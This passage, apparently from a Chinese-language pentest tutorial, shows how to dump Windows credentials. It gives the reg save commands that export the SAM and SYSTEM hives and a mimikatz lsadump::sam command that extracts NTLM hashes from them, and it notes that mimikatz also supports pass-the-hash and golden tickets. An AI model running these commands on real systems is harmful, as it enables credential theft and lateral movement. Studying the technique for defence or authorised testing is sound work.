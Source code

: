 ![](/assets/images/move/2020-07-03-18-07-20.png)

**3. QuarksPwDump**

![](/assets/images/move/2020-07-03-18-55-45.png)

**4. 通过 SAM 和 System 文件抓取密码**

（1）导出 SAM 和 System 文件


```cmd
reg save hklm\sam sam.hive
reg save hklm\system system.hive
```

（2）通过读取 SAM 和 System 文件获取 NTLM Hash

- 使用 mimikatz 读取 sam 和 system 文件。
  mimikatz 可从内存中提取明文密码、散列值、PIN 和 Kerberos 票据，也可以执行哈希传递、票据传递或者构建黄金票据（Golden Ticket）。

  ```cmd
  mimikatz.exe "lsadump::sam /sam:sam.hive /system:system.hive"
  ```

